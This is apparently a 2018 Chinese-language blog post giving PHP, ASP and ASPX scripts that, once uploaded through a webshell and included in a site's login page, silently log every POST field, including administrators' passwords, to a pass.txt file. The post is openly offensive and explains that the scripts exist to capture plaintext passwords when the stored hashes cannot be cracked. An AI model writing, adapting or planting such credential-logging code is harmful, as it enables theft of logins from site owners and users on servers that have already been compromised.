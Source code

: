 ```yaml
---
title: "Web 密码记录脚本"
date: 2018-03-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php','asp','asp.net']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



写这些脚本主要是方便记录管理员的密码.

通常为 md5+salt 或者为 强密码 无法解密.

需要上传至 webshell.

<!--more-->

脚本均已在本地测试成功.

在对应的 login 文件上 include 即可.

默认保存在同目录下的 pass.txt 记录所有 POST 变量

## php

```
<?php
if (isset($_POST)){
	$f = fopen('pass.txt','a+');
	foreach ($_POST as $k=>$v){
		fwrite($f,$k.':'.$v."\r\n");
	}
	fclose($f);
}
?>
```

## asp

```
<%
dim fs,fname
set fs=Server.CreateObject("Scripting.FileSystemObject")
set fname=fs.OpenTextFile(server.mappath("pass.txt"),8,true)
For i = 1 To Request.Form.Count
fname.WriteLine(""&Request.Form.Key(i)&":" & Request.Form(Request.Form.Key(i)))
Next
fname.Close
set fname=nothing
set fs=nothing
%>
```

## aspx

```
<%@ Page Language="Jscript"%>
<%@ import namespace="System.IO" %>
<%
var filepath = Server.MapPath("pass.txt");
var sw = new StreamWriter(filepath, true);
for (var i = 0;i<Request.Form.Count;i++){
sw.WriteLine(Request.Form.Keys[i].ToString() + ":" + Request.Form[i].ToString());
}
sw.Close();
%>
```

php 包含为 `include 'config.php'`.

asp 与 asp.net 为 `<!-- #include file="config.aspx" -->`.